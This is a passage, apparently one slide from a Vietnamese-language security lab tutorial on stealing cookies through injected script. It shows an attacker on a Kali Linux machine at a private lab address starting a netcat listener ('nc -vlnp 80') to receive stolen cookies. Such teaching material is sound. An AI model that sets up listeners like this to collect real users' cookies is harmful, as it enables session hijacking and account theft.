

Trước khi tiêm mã độc la hành động tấn công nghe lén  (Attacker Listener), Attacker cần thiết lập một Listener (máy chủ nghe lén) trên máy Kali Linux (192.168.164.128) để nhận Cookie bị đánh cắp. Attacker chạy lệnh:
nc -vlnp 80

147